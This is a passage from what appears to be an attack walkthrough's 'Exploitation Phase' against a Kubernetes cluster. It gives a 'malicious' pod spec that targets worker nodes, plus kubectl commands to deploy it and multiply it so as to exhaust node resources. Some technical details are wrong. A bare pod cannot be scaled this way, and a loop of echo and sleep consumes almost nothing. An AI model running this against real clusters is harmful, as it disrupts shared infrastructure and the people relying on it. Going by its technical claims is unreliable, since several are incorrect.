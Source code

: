 **Exploitation Phase:**

3.  **Create a Malicious Pod Specification (resource-hog.yaml):**

    ```yaml
    apiVersion: v1
    kind: Pod
    metadata:
      name: resource-hog
      labels:
        app: resource-hog
    spec:
      nodeSelector:
        node-type: worker # Target worker nodes
      containers:
      - name: resource-hog-container
        image: busybox # Lightweight image
        resources:
          requests:
            cpu: "1" # Request 1 CPU core
            memory: "2Gi" # Request 2GiB of memory
        command: ["/bin/sh", "-c", "while true; do echo 'Consuming resources...'; sleep 1; done"]
    ```

    *   **Explanation:** This YAML file defines a pod named `resource-hog` that targets nodes labeled `node-type=worker` using a `nodeSelector`. It requests 1 CPU core and 2GiB of memory. It uses a busybox image to run a simple loop that consumes resources.
    *   **Why:** This pod is designed to be easily schedulable on the targeted node and consume a significant amount of resources.  We request resources, not just limit them, so that the scheduler will allocate the resources as soon as possible.
    *   **Expected Output:** A YAML file defining the pod specification.

4.  **Deploy the Malicious Pod:**

    ```bash
    kubectl apply -f resource-hog.yaml
    ```

    *   **Explanation:** This command creates the pod in the Kubernetes cluster based on the YAML specification.
    *   **Why:** This submits the resource-hog pod to the cluster, prompting the scheduler to allocate it to a node matching the `nodeSelector`.
    *   **Expected Output:** `pod/resource-hog created`
    *   **Contribution:**  Instantiates the attacking pod.

5.  **Scale the Malicious Pod (optional but recommended for faster impact):**

    ```bash
    kubectl scale --replicas=3 pod/resource-hog
    ```

    *   **Explanation:**  This command increases the number of running `resource-hog` pods to 3.  Adjust the number of replicas based on the targeted node's capacity.
    *   **Why:** By creating multiple replicas, we can significantly increase the resource pressure on the targeted node, accelerating the resource exhaustion process.
    *   **Expected Output:** `pod/resource-hog scaled`
    *   **Contribution:** Amplifies the resource consumption.
